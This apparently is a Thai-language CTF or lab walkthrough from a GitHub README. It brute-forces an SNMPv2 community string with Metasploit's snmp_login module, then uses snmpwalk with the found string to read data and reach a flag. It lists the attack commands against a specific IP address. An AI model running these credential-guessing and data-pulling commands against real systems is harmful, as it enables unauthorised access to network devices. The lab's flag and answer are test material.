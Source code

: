 # Brute-force-SNMP
การหัดดึงข้อมูลจาก SNMPv2 service โดยต่อเนื่องจาก lab SNMP ซึ่งในที่นี้ทาง SNMP Service ได้เปลี่ยน community string เป็นอย่างอื่นที่ไม่ใช่ default แล้ว ดังนั้นเราจึงจะทำการ brute force เพื่อหา community string ที่ถูกต้อง

How to :

1.msfconsole

2.msf 6 > search snmp_login

3.msf 6 > use auxiliary/scanner/snmp/snmp_login 

![image](https://github.com/thanawut2903/Brute-force-SNMP/assets/159118913/c79af911-f05b-4a3d-abed-8240b57e0d9e)

4.msf 6 > show options

![image](https://github.com/thanawut2903/Brute-force-SNMP/assets/159118913/541dcdda-2d8f-4b67-afc1-6f86beb1762b)

5.msf 6 > set RHOSTS 149.28.159.195 (traget ip)

6.msf 6 > set RPORT 162 (target port)

7.msf 6 > set threads 20

8.msf 6 > run

![image](https://github.com/thanawut2903/Brute-force-SNMP/assets/159118913/683fae60-4203-4411-831d-f0fec32662dc)

 community string = scotty

 9. snmpwalk -v 2c -c ( community string) (target ip):(target port)

snmpwalk -v 2c -c scotty 149.28.159.195:162


![image](https://github.com/thanawut2903/Brute-force-SNMP/assets/159118913/f3d987dc-bd5d-4573-841c-0516b3626245)

Ans : recon{X28QHB2MljB1x24WkMEh1Tl5Xc3q}


 
